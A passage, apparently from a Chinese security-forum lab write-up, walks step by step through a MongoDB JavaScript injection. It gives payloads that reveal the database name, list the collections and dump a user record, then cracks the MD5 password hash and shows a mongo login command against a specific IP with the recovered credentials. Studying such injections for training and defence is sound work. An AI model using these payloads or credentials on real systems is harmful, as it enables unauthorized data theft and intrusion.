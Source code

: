 ```php
id=1'}); return ({title:1,content:'test
```

![2vcqWd.png](https://shs3.b.qianxin.com/attack_forum/2021/12/attach-600aa5253785929fad10a8ad39c96e943ebf71b0.png)

**4）爆库名**

```php
id=1'}); return ({title:tojson(db),content:'test
查询当前库名
db返回的是一个数组，回显为array，使用tojson()方法将其转为字符串类型
```

![2vcbJH.png](https://shs3.b.qianxin.com/attack_forum/2021/12/attach-60097fc2e6cbe6b1bbf40004693f7d61752c9ddf.png)

**5）爆表名**

查询当前库的所有集合

```php
id=1'}); return ({title:tojson(db.getCollectionNames()),content:'test
getCollectionNames()以数组形式返回所有集合，需要使用tojson()方法转字符串格式
```

![2vcodO.png](https://shs3.b.qianxin.com/attack_forum/2021/12/attach-c09942500b503ccca0f68dfc7b114dc4ebce4ee8.png)

直接查询第1个集合名

```php
id=1'}); return ({title:db.getCollectionNames()[0],content:'test
```

![2vcIeK.png](https://shs3.b.qianxin.com/attack_forum/2021/12/attach-9afb7460c48f842cef592a4a94bb98462489c566.png)

**6）爆字段信息**

可以爆出用户名和密码信息

```php
id=1'}); return ({title:tojson(db.Authority_confidential.find()[0]),content:'test
```

![2vcHFe.png](https://shs3.b.qianxin.com/attack_forum/2021/12/attach-c3f820ca4a49260059e49eae10fdecb698f5bd44.png)

**7）MD5解密**

```php
MD5加密：a83cd5ad5ed3e1c5597441aaab289f5c
解密后 dsansda
```

![2vc4L6.png](https://shs3.b.qianxin.com/attack_forum/2021/12/attach-34faffe9d68e8516e7e12fb4885be657f224755a.png)

**8）远程登陆**

```php
Linux:
mongo --host 219.153.49.228 -u &quot;mozhe&quot; --authenticationDatab ase &quot;mozhe&quot; -p'dsansda'
```
